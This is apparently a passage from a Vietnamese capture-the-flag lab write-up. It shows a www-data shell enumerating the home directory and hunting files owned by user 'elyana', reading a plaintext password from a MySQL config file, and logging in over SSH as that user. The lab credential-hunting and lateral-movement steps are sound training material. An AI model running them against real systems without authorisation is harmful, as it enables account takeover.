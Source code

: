 ## SSH

```python
$ cd /home
$ ls
elyana
$ cd /home/elyana
$ ls
hint.txt
user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
$ 
$ find / -type f -user elyana 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
$ 
```

Thử login ssh với user *elyana*

```python
┌──(kali㉿kali)-[~]
└─$ ssh elyana@10.10.183.28
The authenticity of host '10.10.183.28 (10.10.183.28)' can't be established.
ED25519 key fingerprint is SHA256:Rm7wS3JV0q1IHCuI5dWaanuCoSlTYECCa9jTEE4BFsI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.183.28' (ED25519) to the list of known hosts.
elyana@10.10.183.28's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 17 09:11:29 UTC 2022

  System load:  0.07              Processes:           116
  Usage of /:   53.3% of 6.41GB   Users logged in:     0
  Memory usage: 62%               IP address for eth0: 10.10.183.28
  Swap usage:   0%


16 packages can be updated.
0 updates are security updates.


Last login: Fri Oct  9 08:09:56 2020
-bash-4.4$ id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
```